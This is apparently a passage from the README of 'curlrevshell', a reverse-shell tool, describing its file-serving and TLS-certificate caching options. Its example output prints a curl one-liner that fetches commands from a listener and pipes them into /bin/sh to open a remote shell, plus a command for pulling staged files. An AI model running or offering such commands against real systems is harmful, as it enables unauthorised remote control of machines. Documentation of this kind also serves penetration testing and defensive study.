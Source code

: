 `-serve-files-from`
-------------------
Serves up static files from a directory.  If a file is given instead of a
directory, that file is served up for any path not used by shell things.

Handy for staging other tools or if you really just needed a way to HTTP a file
from point A to point B with a minimum of fuss.

### Example
Serve files from `./d`
```
$ ./curlrevshell -serve-files-from ./d
17:32:42.881 Listening on 0.0.0.0:4444
17:32:42.881 To get files from ./d:

curl -sk --pinnedpubkey 'sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=' 'https://192.168.1.10:4444'

17:32:42.881 To get a shell:

curl -sk --pinnedpubkey 'sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=' 'https://192.168.1.10:4444/c' | /bin/sh
```

`-tls-certificate-cache`
------------------------
Stores the generated TLS key and certificate in the given location.  The
certificate itself is valid for a year, has a CN of `curlrevshell` and no SANs,
and kinda sticks out like a sore thumb.  The default location is usually fine.

The key and certificate are stored in a
[txtar](https://pkg.go.dev/golang.org/x/tools/txtar#hdr-Txtar_format) archive.

Handy for not having to copy/paste one-liners with SHA fingerprints every time.

### Example
Store the certificate in `./c.txtar`.
```
$ curlrevshell -tls-certificate-cache ./c.txtar
```
